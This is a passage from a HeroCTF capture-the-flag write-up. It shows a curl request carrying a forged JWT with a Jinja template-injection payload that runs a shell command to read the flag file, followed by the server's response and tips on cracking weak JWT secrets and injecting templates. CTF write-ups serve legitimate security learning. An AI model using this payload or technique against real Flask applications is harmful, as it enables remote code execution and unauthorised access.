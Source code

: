 ![JWT RCE](/images/heroctfv5/web/flask_jwt_flag.png)

```bash
curl 'http://dyn-06.heroctf.fr:13825/adminPage' -H 'Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoie3sgY3ljbGVyLl9faW5pdF9fLl9fZ2xvYmFsc19fLm9zLnBvcGVuKCdjYXQgZmxhZy50eHQnKS5yZWFkKCkgfX0ifQ.JCGzVe2xKCMFHGGKFqCbqTDkBTfZto-0nGIY_T5IuV8' -v
*   Trying 139.162.183.244:13825...
* Connected to dyn-06.heroctf.fr (139.162.183.244) port 13825 (#0)
> GET /adminPage HTTP/1.1
> Host: dyn-06.heroctf.fr:13825
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoie3sgY3ljbGVyLl9faW5pdF9fLl9fZ2xvYmFsc19fLm9zLnBvcGVuKCdjYXQgZmxhZy50eHQnKS5yZWFkKCkgfX0ifQ.JCGzVe2xKCMFHGGKFqCbqTDkBTfZto-0nGIY_T5IuV8
>
< HTTP/1.1 403 FORBIDDEN
< Server: Werkzeug/2.3.4 Python/3.10.6
< Date: Sun, 14 May 2023 01:29:04 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 77
< Connection: close
<
Sorry but you can't access this page, you're a 'Hero{sst1_fl4v0ur3d_c0Ok1e}
* Closing connection 0
'
```

Flag: `Hero{sst1_fl4v0ur3d_c0Ok1e}`

## Tips & Tricks

- Always check error pages, as they sometimes share valuable information.
- In a Python application, always try SSTI (Server-Side Template Injection) on fields returned by the server.
- Always check the HTTP response headers.
- In a Flask application, session tokens can be cracked, and they are not always Flask tokens (like in this case, a JWT).
- Running `jwt-cracker` on a JWT token can be very useful at the beginning of a CTF (Capture The Flag) if there is a weak secret.
- Try template injections in JWTs, as sometimes they can lead to SSTI (Server-Side Template Injection).
